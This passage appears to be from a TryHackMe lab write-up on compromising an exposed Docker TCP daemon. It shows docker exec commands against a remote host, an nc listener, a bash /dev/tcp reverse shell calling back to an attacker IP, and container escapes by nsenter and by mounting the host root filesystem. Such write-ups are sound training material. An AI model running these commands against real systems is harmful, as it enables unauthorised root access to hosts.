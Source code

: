 ```
USER root

EXPOSE 22

CMD ["/usr/sbin/sshd", "-D"]
```

Hardcoded secrets are revealed. These match the credentials given by the TryHackMe lab. However, let's pretend we didn't see those (i.e., that the developer had chosen to manage secrets securely), and continue investigating.

Even without the root user's credentials, we could still enter the container. The first way, as noted earlier, is by using `docker exec` to launch a shell or shell commands directly. 

```
docker -H 10.10.20.228 exec -it 7b7461f9882e bash
```

For this system, the `-it` switch is probably easier to get the shell than a reverse shell would be. However, a reverse shell is still possible from a container, and may be necessary in some cases (for example, from a web application). In those cases, the system shells may be removed when the image is built, so the shell command will need to fit the use case and vulnerability.

Still, we can try it here as a simple proof. To connect via a reverse shell, start a listener on the host:

```
nc -lvnp 4242
```

Then, leverage the exposed container. Since the image is Ubuntu, we can use a raw Bash TCP connection.

```
docker -H 10.10.20.228 exec 7b7461f9882e \
	bash -c 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1'
```

Either way, you get an interactive terminal, just like with SSH. You can effectively walk through the lab vulnerabilities from this point, without any knowledge of the SSH credentials that were given. A deeper dive into the vulnerabilities is given in a later section.

Now, let's explore the host system's configuration. As with the privileged container, we want to explore it with the intention of providing more valuable feedback about the system, as well as to prove some assumptions made during reconnaissance. 

At this stage, we do need to escape. From the privileged container, we could use `nsenter` to enter the init namespace, thereby giving us a root shell. 

```
nsenter --target 1 --mount --uts --ipc --net /bin/bash
```

We could also break out by launching a container, which targets host's root filesystem, in order to gain a root shell. The benefit of this approach is that we could do so without needing to enter the privileged container at all: that is, by solely exploiting the exposed Docker TCP port.

```
docker -H 10.10.20.228:2375 run -v /:/mnt --rm -it alpine chroot /mnt sh
```
